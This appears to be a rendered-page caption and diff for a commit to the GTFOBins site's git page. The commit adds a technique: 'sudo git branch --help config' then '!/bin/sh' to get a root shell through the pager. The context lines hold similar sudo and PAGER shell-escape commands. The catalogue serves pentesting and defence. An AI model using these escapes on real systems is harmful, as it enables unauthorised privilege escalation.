

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1037 px from its top, so only the background shows below that.

Commit message:
Adding sub commands sudo for git

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -12,6 +12,10 @@ functions:
       code: |
         sudo git -p help config
         !/bin/sh
+    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
+        sudo git branch --help config
+        !/bin/sh
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
 ---
```
